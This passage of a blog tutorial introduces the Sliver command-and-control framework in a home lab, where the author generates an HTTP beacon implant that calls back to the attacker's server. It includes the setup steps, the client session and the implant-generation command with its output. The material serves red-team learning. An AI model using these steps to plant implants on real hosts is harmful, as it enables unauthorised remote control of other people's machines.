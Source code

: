 Also, if you don't already have Metasploit and the MinGW compiler installed, you should do that. This should be as easy as installing the `mingw-w64` package on Debian-based Linux or MacOS.

When using Sliver (or any C2 quite frankly), you'll need to run the server in the background, and use the client to connect to it. If you use the Linux one-liner, this will already be set up for you as a service, so use the appropriate `service` or `systemctl` command to start and stop it. 

<img src="https://an00brektn.github.io/img/sliver/thumb-1920-643584.jpg" style="width:60%;height:60%;">
<sup>Credit to [Aleksi Briclot](https://www.artstation.com/aleksi)</sup>

## Pre-Combat Main Phase: Basic Usage
### Generating Implants
Throughout this blog, I will be using a local setup with my Kali VM and a Windows VM on the same network, Sliver being used and installed on the Kali VM.

Suppose, in this fictional scenario, I am attacking this network and am trying to get my first implant down on this Windows host that I already have command execution on. To start, we first need to generate an implant.

I'll connect to my server by running `sliver`.
```shell
kali@transistor:~/Documents/sliver-test$ sliver
Connecting to localhost:31337 ...

    ███████╗██╗     ██╗██╗   ██╗███████╗██████╗
    ██╔════╝██║     ██║██║   ██║██╔════╝██╔══██╗
    ███████╗██║     ██║██║   ██║█████╗  ██████╔╝
    ╚════██║██║     ██║╚██╗ ██╔╝██╔══╝  ██╔══██╗
    ███████║███████╗██║ ╚████╔╝ ███████╗██║  ██║
    ╚══════╝╚══════╝╚═╝  ╚═══╝  ╚══════╝╚═╝  ╚═╝

All hackers gain recover
[*] Server v1.5.27 - 11949202b581b843160801a232dc61e1afa39cc1
[*] Welcome to the sliver shell, please type 'help' for options

sliver > 
```

You can prepend `help` to any command to list further options, and I *highly* encourage you to read up on all of the different options here. However, for the sake of simplicity, we will generate the simplest of implants, which will use the HTTP protocol for a callback.

> **Note:** Sliver (1.5+) has two types of implants, beacons and sessions. Beacons will check in with your server every now and then to see if you've told them to do something, and then executes and returns the results. An implant in session mode is a real-time session that is more like a reverse shell.
> Implants compiled for session mode cannot switch to being beacons, but you can have beacons open up interactive sessions if need be.

```shell
sliver > generate beacon --http 10.10.69.24 --save .

[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
[*] Build completed in 00:01:05
[*] Implant saved to /home/kali/Documents/sliver-test/DIFFICULT_DYNAMO.exe
```
